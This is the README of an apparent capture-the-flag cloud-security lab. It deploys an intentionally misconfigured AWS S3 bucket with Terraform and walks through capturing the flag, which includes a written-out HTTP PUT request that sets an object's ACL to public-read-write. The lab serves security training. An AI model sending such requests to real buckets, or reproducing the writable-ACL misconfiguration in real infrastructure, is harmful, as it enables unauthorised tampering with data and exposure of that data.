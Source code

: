 # Description

English | [中文](./README_CN.md)

This is a script that can help you quickly build a bucket object ACL reading and writing scenario

Although you may not encounter it in a real environment, have fun playing

## Deployment Environment

```bash
cd /TerraformGoat/aws/s3/object_acl_writable/
```

Configure AWS Access Credentials

```shell
aws configure
```

> You can see the access key in the AWS [Console --> Security Credentials]

```bash
terraform init
terraform apply
```

After typing yes, the scene will be built automatically and quickly

## Get Flag

access flag.txt

```shell
hxsecxxxxx.s3.us-east-1.amazonaws.com/flag.txt
```

![img](../../../images/1653022475.png)

modify object acl

![img](../../../images/1653022598.png)

```http
PUT /flag.txt?acl HTTP/1.1
Host: hxsecxxxxx.s3.eu-west-1.amazonaws.com
x-amz-acl: public-read-write
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

get flag

![img](../../../images/1653022699.png)

## Destruction Challenge

```bash
terraform destroy
```

enter yes
